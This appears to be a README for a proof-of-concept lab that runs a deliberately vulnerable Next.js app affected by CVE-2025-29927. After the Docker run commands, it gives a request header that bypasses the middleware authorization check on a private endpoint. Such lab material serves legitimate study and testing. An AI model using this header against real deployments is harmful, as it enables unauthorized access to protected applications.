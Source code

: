 # Next.js Middleware Exploit: CVE-2025-29927 Authorization Bypass POC
This folder contains a sample web application vulnerable to [CVE-2025-29927](https://zeropath.com/blog/nextjs-middleware-cve-2025-29927-auth-bypass), a vulnerability in NextJS allow authorization bypass by adding special header.

## Running the application

Run it:


```
docker build . -t vulnerable-app
docker run -p 3000:3000 --name vulnerable-app --rm vulnerable-app
```

## Exploitation steps

The application has a private endpoint `/private` that is accessible only for authenticated users.  


This authentication can be bypassed if you added this header to the request

```
x-middleware-subrequest: middleware:middleware:middleware:middleware:middleware
```